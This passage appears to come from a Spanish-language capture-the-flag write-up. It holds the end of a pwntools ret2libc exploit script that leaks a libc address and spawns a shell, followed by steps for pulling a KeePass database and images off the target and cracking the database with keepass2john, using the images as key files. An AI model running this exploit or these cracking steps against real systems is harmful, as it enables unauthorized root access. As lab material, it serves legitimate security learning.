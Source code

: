```python

print(p.recvline())
p.sendline(payload)
leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8, b"\x00"))
log.info("Leaked puts address: 0x%x" % leaked_puts)

libc_address = leaked_puts - 0x067f90

log.info("Computed libc address: 0x%x" % libc_adress)
bin_sh_address = p64(libc_address + 0x161c19)

payload = junk + pop_rdi + bin_sh_address + system_plt
p.recvline()
p.sendline(payload)
p.interactive()
```

---------
#### Abusing keepass to obtain the root password [Privilege Escalation]
Una vez ganamos acceso a la maquina, podemos ver que en nuestro directorio personal hay un archivo **Kepass**. Podemos intentar traernoslo a nuestro equipo. Pasamos el archivo por **Keepass2John** para generar un hash que vamos a romper de manera offline con **John** o con **Hashcat**. Vemos que la contraseña no se puede crackear ya que no esta contemplatada en el **rockyou.txt**. 

Si nos fijamos una vez más en nuestra carpeta persona, encontramos varias imagenes. Dado que no esta instalada ninguna versión de **Python**, ni **PHP**, tiraremos de **busybox** para iniciar un servicio **HTTP** y descargar las imagenes:
```
# busybox httpd -f -p 4646
```

Intentando ver si se esta aplicando **Steganografia** en las imagenes no llegamos a dar con nada. Lo que queda por hacer es pasar las Imagenes como **KeyFiles** con **KeePass2John** para generar distintos hashes dependiendo de la **Key**:
```
# keepass2john IMG MyPassword.kdbx
```

